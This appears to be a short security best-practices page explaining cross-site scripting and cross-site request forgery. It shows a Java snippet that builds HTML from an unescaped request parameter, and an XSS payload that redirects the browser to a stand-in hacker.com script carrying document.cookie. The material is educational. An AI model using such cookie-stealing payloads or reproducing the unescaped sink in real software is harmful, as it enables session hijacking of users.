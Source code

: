 # Java-Script
Java Script Security Best Practices

1. Cross-Site Scripting (XSS)
This HTML code can be used by hacker for utilizing malicious data. This code can be used without validation or escaping.
It will allow transferring of victim’s session ID to hacker’s site and therefore it can be misused as hackers gain access to it.

(String) page += ”
<input name=’myaccountname’
type=’TEXT’ value='” +
request.getParameter(“FF”) + “‘>”;

The eve-dropper changes the ‘FF’ parameter in their browser to:
<script>document.location=
‘<a class="vglnk" href="http://www.hacker.com/" rel="nofollow"><span>http</span><span>://</span><span>www</span><span>.</span><span>hacker</span><span>.</span><span>com</span><span>/</span></a>
cgi-bin
/cookie.cgi?param=’
+document.cookie</script>’.

2. Cross-Site Request Forgery (CSRF)
This application will permit the user to send a state-changing request.
Thus, eve-dropper develops a request for enabling money transfer from a victim’s account to that of eve-dropper’s.


